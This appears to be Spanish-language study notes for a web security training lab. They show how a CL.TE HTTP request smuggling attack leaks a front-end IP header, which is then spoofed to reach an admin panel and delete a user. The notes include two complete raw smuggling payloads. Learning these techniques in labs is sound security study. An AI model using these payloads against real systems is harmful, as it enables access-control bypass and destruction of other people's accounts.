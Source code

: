 En esta clase aprendemos a aprovechar una vulnerabilidad de HTTP request smuggling para identificar cabeceras que el servidor front-end añade a las peticiones entrantes. Estas cabeceras pueden determinar el acceso a zonas restringidas, como el panel de administración.

Primero, utilizamos un ataque de tipo CL.TE para inyectar una petición secundaria y observar cómo el front-end reescribe el tráfico. Al examinar la respuesta del back-end, logramos identificar la cabecera que transporta la IP del cliente. Luego, reproducimos el ataque incluyendo esta cabecera manualmente con el valor 127.0.0.1, lo que nos permite acceder al panel /admin.

Finalmente, modificamos la petición smuggled para apuntar a ‘**/admin/delete?username=carlos**‘, logrando así eliminar al usuario objetivo y resolver el laboratorio.

Solucion
en este caso vamos a interceptar el input que ponemos en la parte principal de la pagina esto se hace poniendo cual quiercosa en la barra de busquedad
![Pasted image 20250807210951.png](imagenes/Pasted image 20250807210951.png)
lo interceptamos esta ves solo ponemos el http1.1
Entonces lo primero seria poner esta peticion para poder sacar una cabecera que es la que nos llevara a /admin
(POST / HTTP/1.1

Host: 0a5e007e041839cb80d0534500f30052.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 56

Transfer-Encoding: chunked



0



POST / HTTP/1.1

Content-Length: 200



search=test)
y esto se veria asi
![Pasted image 20250807213247.png](imagenes/Pasted image 20250807213247.png)
Y si nosotros no podemos ver la cabecera como en forma de error en el render solamente actualizamos la pagina principal para pdoer visualizarlo
![Pasted image 20250807213343.png](imagenes/Pasted image 20250807213343.png)
y ya al final lo adaptmaos a nuestro payload final
doble send y con esto terminamos
![Pasted image 20250807213709.png](imagenes/Pasted image 20250807213709.png)
Payload(POST / HTTP/1.1

Host: 0a5e007e041839cb80d0534500f30052.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 106

Transfer-Encoding: chunked



0



GET /admin/delete?username=carlos HTTP/1.1

X-ppcVGN-Ip: 127.0.0.1

Content-Length: 13



search=test)
